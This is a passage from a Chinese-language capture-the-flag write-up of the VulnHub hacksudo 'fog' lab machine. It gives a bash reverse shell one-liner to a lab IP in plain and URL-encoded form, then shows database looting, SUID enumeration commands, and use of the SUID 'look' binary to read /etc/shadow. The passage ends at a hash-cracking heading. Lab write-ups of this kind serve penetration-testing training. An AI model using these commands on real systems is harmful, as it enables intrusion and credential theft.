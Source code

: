 ![](D:\stu\vulnhub\hacksudo靶场\pic-fog\24.jpg)

测试使用`bash`命令看能否进行反弹

```shell
bash -c 'bash -i >& /dev/tcp/192.168.1.16/9999 0>&1'
//进行URL编码
bash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.1.16%2f9999+0%3e%261%27%0a
```

![](D:\stu\vulnhub\hacksudo靶场\pic-fog\25.jpg)

# 提取

## 内网信息收集

查看之前在`cms`目录下的`config.php`

![](D:\stu\vulnhub\hacksudo靶场\pic-fog\26.jpg)

在查看目录时，发现一个`flag`

![](D:\stu\vulnhub\hacksudo靶场\pic-fog\27.jpg)

尝试使用上面的数据库连接的用户名和密码进行登录测试

![](D:\stu\vulnhub\hacksudo靶场\pic-fog\28.jpg)

查询该数据库下的表时，发现`users`，直接查询其中的数据

![](D:\stu\vulnhub\hacksudo靶场\pic-fog\29.jpg)

这里看到，`hacksudo`的密码是与`fog`一样的，不过也只能登录网站，且权限不如`fog`

一圈搜索，寻找具有SUID权限文件，发现`look`，之前碰到过，`look`可以读取数据，这个具有SUID的话，就可以读取之前不能读取的数据

```shell
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -exec ls -al {} \; 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-fog\30.jpg)

可以在网站`gtfobins.github.io`查看用法

![](D:\stu\vulnhub\hacksudo靶场\pic-fog\31.jpg)

使用`look`查看`/etc/shadow`

![](D:\stu\vulnhub\hacksudo靶场\pic-fog\32.jpg)

## 密码hash破解
